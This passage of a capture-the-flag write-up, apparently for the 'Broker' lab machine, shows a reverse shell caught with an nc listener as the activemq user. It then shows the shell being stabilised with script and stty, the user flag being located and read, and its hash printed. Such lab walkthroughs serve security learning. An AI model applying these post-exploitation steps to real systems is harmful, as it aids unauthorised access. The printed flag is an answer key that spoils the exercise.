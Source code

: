 ```bash
$ stty raw -echo; fg;                                 # type this                                                                                        [7:01:27]                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           
[1]  + 3457868 continued  rlwrap nc -nvlp 1234
activemq@broker:/opt/apache-activemq-5.15.15/bin$ 
ls
activemq       activemq.jar  linux-x86-32  macosx
activemq-diag  env           linux-x86-64  wrapper.jar
$ find / -type f -iname user.txt 2> /dev/null
<15/bin$ find / -type f -iname user.txt 2> /dev/null
/home/activemq/user.txt
$ cat /home/activemq/user.txt
24fa991bd49bf86144db4b02ee4dd697
activemq@broker:/opt/apache-activemq-5.15.15/bin$
```

Boom I got a reverse shell as the user **activemq** and this answers the next question:

- “What user is the ActiveMQ service running as on Broker?”
- This is easy to tell.

Also the next question:

- “Submit the flag located in the activemq user's home directory.”
- Well that’s easy.

So what happened when I got the shell, let me backtrack.

First, I upgrade the shell for stability with a trusted script command:

`script /dev/null -c bash`

In this case it was python3, always check the python version. 

After this I proceed with commands to give me a better shell.

 

```

ctrl+z # in the terminal backgrounds it.

stty raw -echo # used for display settings of the terminal

fg # bring the terminal back into the forground.
```

Once in the shell as the user **activemq** I can get `user.txt` and keep answering the guided questions. 

---

# Privilege Escalation to root:
